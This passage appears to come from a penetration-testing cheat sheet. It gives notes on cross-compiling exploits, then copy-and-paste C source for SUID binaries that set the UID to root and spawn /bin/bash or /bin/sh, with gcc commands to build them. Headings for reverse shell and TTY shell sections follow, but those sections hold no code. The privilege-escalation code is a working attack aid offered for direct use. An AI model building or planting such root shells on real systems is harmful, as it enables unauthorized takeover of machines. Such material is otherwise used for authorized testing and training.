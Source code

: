 Handy for cross compiling 32 bit binaries on 64 bit attacking machines.

#### Compile Windows .exe on Linux <a href="#compile-windows-exe-on-linux" id="compile-windows-exe-on-linux"></a>

Build / compile windows exploits on Linux, resulting in a .exe file.

### SUID Binary <a href="#suid-binary" id="suid-binary"></a>

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

#### SUID C Shell for /bin/bash <a href="#suid-c-shell-for-binbash" id="suid-c-shell-for-binbash"></a>

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
```

#### SUID C Shell for /bin/sh <a href="#suid-c-shell-for-binsh" id="suid-c-shell-for-binsh"></a>

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```

#### Building the SUID Shell binary <a href="#building-the-suid-shell-binary" id="building-the-suid-shell-binary"></a>

```
gcc -o suid suid.c  
```

For 32 bit:

```
gcc -m32 -o suid suid.c  
```

### Reverse Shells <a href="#reverse-shells" id="reverse-shells"></a>

See Reverse Shell Cheat Sheet for a list of useful Reverse Shells.

### TTY Shells <a href="#tty-shells" id="tty-shells"></a>

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like `su` from reverse shells.
